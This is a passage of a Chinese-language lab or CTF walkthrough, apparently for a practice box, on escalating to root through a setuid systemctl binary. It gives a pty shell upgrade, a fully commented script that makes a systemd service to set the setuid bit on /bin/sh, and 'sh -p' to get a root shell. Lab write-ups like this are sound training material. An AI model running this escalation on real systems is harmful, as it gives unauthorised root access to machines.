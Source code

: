 ![image-20221012013238186](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221012013238186.png)

systemctl 是用于控制systemd初始化服务的工具，在 systemctl 上启用 setuid 是不正常的，使用GTFOBins，查找SUID可执行文件的利用方法：https://gtfobins.github.io/

![image-20221012014651389](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221012014651389.png)

![image-20221012020317598](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221012020317598.png)

先获得一个更稳定的shell：

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

修改一下上图所提供的脚本，然后在目标机的低权限shell上运行：

```shell
#复制以下所有代码到目标机的shell界面即可（该脚本的目的是创建一个系统服务并以root用户身份运行它）

TK=$(mktemp).service   #我们创建一个名为“TK”的环境变量。在这个变量中，我们调用mktemp命令来创建一个临时文件，作为Systemd服务单元文件（.service在最后）


#创建一个单元文件并将其分配给环境变量--以此完成服务单元文件的构造
#下面是我们执行单元文件所需要的配置
#默认情况下：systemctl将在/etc/system/systemd中搜索文件。
#但是当前的登录用户没有权限写入/etc/system/systemd，我们通过将单元文件内容 一行一行地回显到刚才创建的env变量中来解决这个问题
echo '[Service]    #调用echo命令开始回显输入(注意单引号，通过不包括关闭行的第二个单引号，我们能够输入多个单行并完成我们的Systemd服务单元文件)     
Type=oneshot           
ExecStart=/bin/sh -c "chmod +s /bin/sh"  #当服务启动时调用默认的系统shell（-c 告诉shell执行引号中的所有内容）
[Install]                                #单元文件的第二部分
WantedBy=multi-user.target' > $TK        #设置此服务将运行的状态(或运行级别)，将我们的所有输入指向TK env变量

#使用 systemctl 运行这个单元文件
/bin/systemctl link $TK                  #这使得我们的单元文件可用于systemctl命令，即使它在标准搜索路径之外
/bin/systemctl enable --now $TK          #启用一个单元实例--服务单元文件得以运行
```

systemctl参考手册：https://www.freedesktop.org/software/systemd/man/systemctl.html

上述脚本已经以root身份给/bin/sh加上了s权限，现在运行sh命令（-p用于保持sh获得的权限）即可获得root权限：

```shell
sh -p
```

![image-20221012030442114](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221012030442114.png)

答题卡

![image-20221012024437619](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221012024437619.png)
